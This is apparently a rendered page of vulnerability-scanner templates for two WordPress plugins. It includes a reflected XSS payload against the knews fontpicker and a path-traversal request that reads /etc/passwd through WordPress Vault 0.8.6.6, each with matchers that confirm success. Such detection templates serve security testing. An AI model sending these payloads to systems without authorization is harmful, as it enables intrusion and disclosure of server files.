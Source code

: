## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/knews/wysiwyg/fontpicker/?ff=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

### Matchers

**Type - word**

- words
  1. \</script>\<script>alert(document.domain)\</script>
- part - body

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# WordPress Vault 0.8.6.6 - Local File Inclusion

## Description

- WordPress Vault 0.8.6.6 is vulnerable to local file inclusion.
- severity - high
- tags - lfi,edb,wp-plugin,wordpress

## Requests

- Method - GET

### URL

- {{BaseURL}}/?wpv-image=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:

